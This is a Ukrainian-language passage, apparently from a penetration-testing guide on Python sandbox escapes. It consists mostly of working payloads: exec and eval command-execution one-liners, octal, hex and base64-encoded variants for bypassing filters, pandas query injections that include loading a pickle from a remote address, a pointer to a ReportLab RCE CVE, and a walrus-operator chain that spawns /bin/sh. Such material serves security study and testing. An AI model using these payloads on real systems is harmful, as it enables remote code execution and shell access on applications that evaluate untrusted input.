 Якщо певні символи заборонені, ви можете скористатися **hex/octal/B64** представленням, щоб **bypass** обмеження:
```python
exec("print('RCE'); __import__('os').system('ls')") #Using ";"
exec("print('RCE')\n__import__('os').system('ls')") #Using "\n"
eval("__import__('os').system('ls')") #Eval doesn't allow ";"
eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec')) #This way eval accept ";"
__import__('timeit').timeit("__import__('os').system('ls')",number=1)
#One liners that allow new lines and tabs
eval(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
```

```python
#Octal
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
#Hex
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
#Base64
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #Only python2
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```
### Інші бібліотеки, які дозволяють виконувати python-код через eval
```python
#Pandas
import pandas as pd
df = pd.read_csv("currency-rates.csv")
df.query('@__builtins__.__import__("os").system("ls")')
df.query("@pd.io.common.os.popen('ls').read()")
df.query("@pd.read_pickle('http://0.0.0.0:6334/output.exploit')")

# The previous options work but others you might try give the error:
# Only named functions are supported
# Like:
df.query("@pd.annotations.__class__.__init__.__globals__['__builtins__']['eval']('print(1)')")
```
Також дивіться реальний випадок обходу sandboxed evaluator у PDF-генераторах:

- ReportLab/xhtml2pdf triple-bracket [[[...]]] expression evaluation → RCE (CVE-2023-33733). Він зловживає rl_safe_eval для доступу до function.__globals__ і os.system через оцінені атрибути (наприклад, font color) і повертає дійсне значення, аби зберегти стабільність рендерингу.

{{#ref}}
reportlab-xhtml2pdf-triple-brackets-expression-evaluation-rce-cve-2023-33733.md
{{#endref}}

## Оператори та короткі прийоми
```python
# walrus operator allows generating variable inside a list
## everything will be executed in order
## From https://ur4ndom.dev/posts/2020-06-29-0ctf-quals-pyaucalc/
[a:=21,a*2]
[y:=().__class__.__base__.__subclasses__()[84]().load_module('builtins'),y.__import__('signal').alarm(0), y.exec("import\x20os,sys\nclass\x20X:\n\tdef\x20__del__(self):os.system('/bin/sh')\n\nsys.modules['pwnd']=X()\nsys.exit()", {"__builtins__":y.__dict__})]
## This is very useful for code injected inside "eval" as it doesn't support multiple lines or ";"
```
## Обхід захистів через кодування (UTF-7)
